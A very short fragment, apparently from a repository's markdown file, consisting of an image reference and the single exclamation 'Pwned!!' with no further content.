

Pwned!!
